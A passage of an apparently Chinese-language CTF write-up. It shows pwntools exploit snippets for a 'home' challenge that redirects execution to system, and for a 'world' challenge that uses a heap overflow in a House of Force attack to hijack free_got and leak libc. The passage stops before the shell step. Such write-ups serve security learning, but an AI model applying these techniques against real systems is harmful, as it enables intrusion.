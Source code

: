 #### exp

```python
def pwn_home():
    p.sendline('./next')
    system = 0x400896
    p.sendlineafter('go?\n', 'bedroom')
    p.sendlineafter('go?\n', 'bedroom')
    p.sendlineafter('name: ', 'a\x00'*8+p64(system))
    p.sendlineafter('go?\n', 'a')
```



### world

#### 代码分析

![image-20220212222827186](https://up-wind.github.io/assets/2022-01-29-dream/image-20220212222827186.png)

第一次 create 的时候会创建 world 块，此时读入的字节数正好比块大小多了 8 个字节，能覆盖到 top_chunk 的 size 区域，而且对于后续的 create 来说，malloc 的大小没有限制，所以可以有 **House of Force** 的思路。

后续就通过劫持 free_got 来泄露 libc 地址和开 shell。

#### 解题步骤

##### 修改 top_chunk 到 free_got

```python
p.sendafter('name: ', 'a'*0xf8 + p64(i64_max))
```

![image-20220213213330362](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213213330362.png)

```python
create(str(free_got - 0x28 - (heap_addr + 0x240)), 'bbbb')
```

![image-20220213213350220](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213213350220.png)

##### 劫持 free_got 到 call_puts

```python
payload  = 'a'*8
payload += p64(call_puts).replace(b'\x00',b'\t')[:-1] #使用 replace 清空无关字节
create(0x88, payload)
```

劫持之前：

![image-20220213213454829](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213213454829.png)

劫持之后：

![image-20220213213607228](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213213607228.png)
